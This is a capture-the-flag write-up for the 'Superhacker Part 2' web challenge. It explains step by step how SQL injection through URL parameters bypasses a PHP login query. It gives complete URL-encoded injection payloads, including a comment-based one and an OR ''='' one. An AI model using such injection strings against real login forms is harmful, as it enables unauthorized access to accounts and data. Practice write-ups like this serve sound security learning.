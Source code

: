 # Superhacker Part 2
**Category:** Web

**Points:** 25

**Description:**

http://ctf.hackucf.org:4001/

Author: kablaa

## Write-up
This is the second part of [Superhacker Part1](../Web_SuperhackerPart1/README.md). Therefore, the opening page is the same:

![Opening page](opening_page.png)

For this challenge we need to get the code to give us `$flag2`. This means we need to get into the same part as for `Superhacker Part1`, but also need to ensure that the `SELECT` command returns at least one row from the `users` table. This is because the condition to get to `$flag2` is:
```php
if(mysqli_num_rows($res) > 0) {
    echo "$flag2" ;
}
```
This is going to require some SQL intection. We could get all rows from the table with a `SELECT` statement like:
```sql
SELECT * FROM users WHERE username LIKE '%'
```
However, to inject code into the current statement, we need to put the code into the `username` or `password`. We can use `OR` in an SQL statement to add our `LIKE` clause to the existing `SELECT` by having `username` start with a closing quote (`'`), and then our `OR username LIKE '%'` clause, followed by the single line comment symbol `--`. The single-line-comment marker will exclude the original closing quote from the username and all the `password` part of the line. The SQL statement we will be creating is:
```sql
SELECT * FROM users WHERE username = '' OR username LIKE '%' --' AND password = 'pass'
```
To do this we need to pass the string through the URL, because we also need to set `iamahacker` and `debug` (we don't actually need to set `debug`, but it's useful to check our statement). This means any special characters need to be set to the ASCII hex value for that character. This includes the closing (and any other) quote (`%27`), any spaces (`%20`) and the percent sign (`%25`). Therefore, our final URL should be:
```
http://ctf.hackucf.org:4001?username=%27%20OR%20username%20LIKE%20%27%25%27%20--&password=pass&iamahacker=1&debug=1
```
I tried this, but it didn't work, and gave an error:
```
flag{<flag1 here>}
SELECT * FROM users WHERE username = '' OR username LIKE '%' --' AND password = 'pass'

Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in /app/index.php on line 21
```
So I now needed to figure out where this had gone wrong...

> I couldn't spot what was wrong. So, for now, and after consultation with a friend who had previously solved this, I used the URL:  
`http://ctf.hackucf.org:4001/?username=%27%20OR%20%27%27=%27&password=%27%20OR%20%27%27=%27&iamahacker=1&debug=1`  
which makes the select statement:  
`SELECT * FROM users WHERE username = '' OR ''='' AND password = '' OR ''=''`  
and gave me the flag. However, I will return and fix my original solution when I work out the problem.

I finally spotted my mistake. In standard SQL, a single-line comment is denoted with `--`. However in MySQL, a single-line comment uses `#`. So now I need to create the statement:
```sql
SELECT * FROM users WHERE username = '' OR username LIKE '%' #' AND password = 'pass'
```
so I updated the URL to do this to:
```
http://ctf.hackucf.org:4001?username=%27%20OR%20username%20LIKE%20%27%25%27%20%23&password=pass&iamahacker=1&debug=1
```
This worked and gave me the second flag:
```
flag{<flag1 here>}
SELECT * FROM users WHERE username = '' OR username LIKE '%' #' AND password = 'pass'
flag{<flag2 here>}
```
